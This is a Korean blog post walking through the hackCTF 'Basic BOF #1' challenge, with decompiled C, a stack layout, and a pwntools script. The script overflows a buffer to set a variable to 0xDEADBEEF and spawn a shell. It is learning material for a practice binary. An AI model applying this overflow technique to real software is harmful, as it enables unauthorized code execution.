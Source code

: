 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: c python
---
```

hackCTF pwnable 첫번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

### ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```

***
메모리 구조를 정리해보자.

| ebp |          |
|:---:|:--------:|
| ... |          |
|  v5 (67305985) / | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |


취약점 : fgets()&s, 45, stdin)  
목표 : v5  
∴ payload를 v5까지 덮을 수 있도록 만들자.


### exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 16진수로 변환하면 0xDEADBEEF가 된다. 40byte를 아무 값으로 채운다음 p32 방식으로 0xDEADBEEF 값을 패킹해 payload 값을 만든다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
